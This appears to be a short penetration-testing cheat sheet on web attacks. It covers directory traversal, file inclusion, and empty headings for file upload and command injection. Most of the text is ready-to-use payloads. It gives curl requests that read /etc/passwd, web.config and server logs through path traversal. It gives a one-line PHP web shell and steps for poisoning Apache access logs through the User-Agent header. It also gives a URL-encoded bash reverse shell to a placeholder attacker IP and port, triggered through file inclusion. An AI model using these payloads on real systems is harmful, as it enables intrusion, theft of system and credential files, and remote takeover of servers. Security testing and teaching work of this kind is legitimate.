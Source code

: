 # Directory traversal

Example: `curl http://vulnsite/index.php?page=../../../../../../etc/passwd`
Windows (check both `/` and `\`):
```
curl http://vulnsite/index.php?page=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts
curl http://vulnsite/index.php?page=../../../../../../inetpub\logs\LogFiles\W3SVC1\
curl http://vulnsite/index.php?page=../../../../../../wwwroot\web.config
```

Grafana CVE: https://golangexample.com/cve-2021-43798-grafana-8-x-path-traversal-pre-auth/ \
Apache 2.4.49 CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

## File inclusion

Php snipet:
```
<?php echo system($_GET['cmd']);?>
```
and poison the log files with a Header (e.g. [User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent)) or another user controled field. Then traverse the directories to the log file:
```
http://sitetohack/index.php?page=../../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F___AttackerIP___%2F___AttackerPort___%200%3E%261%22
```

## File upload

## Command injection


